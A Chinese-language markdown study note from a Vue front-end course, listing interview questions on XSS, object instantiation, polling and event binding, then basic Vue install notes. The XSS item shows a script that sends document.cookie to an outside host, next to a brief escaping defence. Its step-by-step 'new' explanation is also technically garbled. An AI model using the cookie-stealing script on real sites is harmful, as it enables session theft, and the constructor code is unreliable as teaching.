 # Vue

## day2-2

### 面试题
* xss攻击，与防御
    * 跨域脚本攻击
    ```js
        ​<img src="xxx" onclick="go()" />
        <h4 style="color:#58bc58">点我有惊喜</h4>
        <script>
            localtion.href="http://www.laoxie.com?data="+document.cookie
        </script>
    ```
    * 防御：
        * 对输入输出进行过滤
        ```html
            ​&lt;img src="xxx" onclick="go()" /&gt;
        ```
* 实例化过程经历什么 new String()
    ```js
        function Mayun(){
            // 1. 创建一个对象
            let obj = {};

            //2. 将this指向obj
            Mayun.bind(obj)

            // 3. 执行内部代码，给obj添加属性
            this.xx1 = 'xx1'
            this.xx2 = 'xx2'
            this.xx3 = 'xx3'

            // 4. 改变原型对象
            obj.__proto__ = Mayun.prototype

            // 5. 返回这个对象
            return obj
        }

        let my = new Mayun();// Mayun()

    ```
* 什么叫轮询
    * 用自己的语言表达出来
* 事件绑定方式，和移除方式
```js
    <button onclick="show()">点我有惊喜</button>

    ele.onclick = show; // ele.onclick = null;
    ele.addEventListener('click',show,false);// ele.removeEventListener('click',show,false)

    function show(){
        
    }
```

### 知识点
* 前端三大框架
    * angular
    * react
    * vue
* 渐进式
    * 核心 -> 配套框架、插件 -> 扩展性
* 安装版本
    * 开发版本  development
        * 完整未压缩：调试、测试，本地开发使用
    * 生产版本  production
        * 压缩合并：删除了警告，上线使用
    * CDN
    * npm / yarn